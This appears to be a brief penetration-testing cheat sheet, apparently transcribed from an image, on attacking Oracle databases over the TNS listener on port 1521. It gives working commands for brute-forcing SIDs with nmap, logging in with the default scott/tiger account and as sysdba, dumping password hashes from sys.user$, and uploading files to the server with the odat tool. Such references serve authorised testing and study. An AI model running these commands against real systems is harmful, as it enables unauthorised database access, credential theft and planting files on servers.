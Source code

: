 
TNS
	Transparent Network Substrate
Tools
	odat (oracle database attack tool)
Port
	1521
SID Bruteforcing
	sudo nmap -p1521 -sV x.x.x.x --open --script oracle-sid-brute
Interaction
	Use sqlplus to connect
		scott/tiger@x.x.x.x/XE
CMDS
	https://docs.oracle.com/cd/E11882_01/server.112/e41085/sqlqraa001.htm#SQLQR985
Elevated Privileged 
	sysdba
		sqlplus user/pass@x.x.x.x/XE as sysdba
Extracting Password Hashes
	select name, password from sys.user$;
File Upload
	./odat.py utlfile -s x.x.x.x -d XE -U scott -P tiger --sysdba --putFile remotePath exportfName localFile 